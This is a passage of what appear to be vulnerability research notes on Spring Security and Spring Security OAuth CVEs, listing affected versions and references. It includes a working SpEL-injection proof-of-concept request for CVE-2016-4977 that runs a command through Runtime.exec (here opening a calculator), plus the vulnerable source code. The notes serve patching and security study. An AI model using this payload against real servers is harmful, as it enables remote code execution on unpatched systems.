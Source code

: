 ```java
request.getContextPath(): /Project Name/ or ""
request.getServletPath(): /admin/axisx\n\r
request.getPathInfo()：/Servlet Path/ or Null
```
Summary: `.` in regular matches do not handle `\n`,`\r`

#### CVE-2022-31692 Authorization Bypass
Affected Version: 5.7 to 5.7.5, 5.6 to 5.6.9 

Ref: https://spring.io/security/cve-2022-31692/

#### CVE-2023-34034 Authorization Bypass
Affected Version: 6.1.0 to 6.1.1, 6.0.0 to 6.0.4, 5.8.0 to 5.8.4, 5.7.0 to 5.7.9, 5.6.0 to 5.6.11

Official description: 

> Using "**" as a pattern in Spring Security configuration for WebFlux creates a mismatch in pattern matching between Spring Security and Spring WebFlux, and the potential for a security bypass.

#### CVE-2023-34035 Authorization misconfigured
Affected Version: 5.8.0 to 5.8.4, 6.0.0 to 6.0.4, 6.1.0 to 6.1.1

Ref: https://spring.io/security/cve-2023-34035/

#### CVE-2016-4977 OAuth2 SpEL
Affected Version: < 2.0.0-2.0.9 or 1.0.0-1.0.5

Diff: https://github.com/spring-attic/spring-security-oauth/commit/fff77d3fea477b566bcacfbfc95f85821a2bdc2d

POC: 
```
GET /oauth/authorize?response_type=token&client_id=acme&redirect_uri={payload}

${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```
Factor: 
```
SpelView
    public SpelView(String template) {
        ...
        this.resolver = new PlaceholderResolver() {
            public String resolvePlaceholder(String name) {
                Expression expression = SpelView.this.parser.parseExpression(name);
                Object value = expression.getValue(SpelView.this.context);
                return value == null ? null : value.toString();
            }
        };
    }
```

#### CVE-2018-1260 OAuth2 SpEL
Affected Version: < 2.3.3 or 2.2.2 or 2.1.2 or 2.0.15
